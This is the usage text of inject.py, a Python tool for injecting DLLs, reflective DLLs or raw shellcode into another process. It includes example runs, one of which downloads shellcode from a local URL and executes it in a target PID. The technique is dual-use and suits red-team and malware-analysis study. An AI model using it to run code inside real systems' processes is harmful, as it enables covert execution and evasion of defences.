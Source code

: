 inject.py -- injects code into other processes
This script requires administrative privileges.

Usage:

inject.py [-h] [--type TYPE] [--enc ENC] pid file

positional arguments:
  pid
  file

optional arguments:
  -h, --help   show this help message and exit
  --type TYPE  dll, refdll, raw
  --enc ENC    base64

Arguments description:
pid: PID of target process
file: path or URL of file to be injected

TYPE: Type of file 
	-dll:simple dll file
	-refdll:dll which can be injected with reflective dll injection technique
	-raw:raw binary shellcode
ENC: Encoding of file. Currently only base64 is implemented. It is good enough.


Examples:

$ python inject.py --type refdll 7052 reflective_dll.dll
[+] Debug privilege enabled.
[+] Checking environment:       64 bit system architecture.     Current process is 64 bit (native).     Remote process is 32 bit (WOW64).
[+] Checking DLL file
[+] Dll file OK. Loader function name: _ReflectiveLoader@4, RVA: 1060
[+] Writing DLL data to remote process
[+] Starting ReflectiveLoader (_ReflectiveLoader@4) Start address: 220460
[-] CreateRemoteThread failed
[+] Failing back to NtCreateThreadEx
[+] Remote thread started.


$ python inject.py --type raw 7052 http://127.0.0.1:8000/x86runnotepad.bin
[+] Debug privilege enabled.
[+] Getting http://127.0.0.1:8000/x86runnotepad.bin
[+] Writing code to remote process
[+] Starting remote code
[-] CreateRemoteThread failed
[+] Failing back to NtCreateThreadEx
[+] Remote thread started.


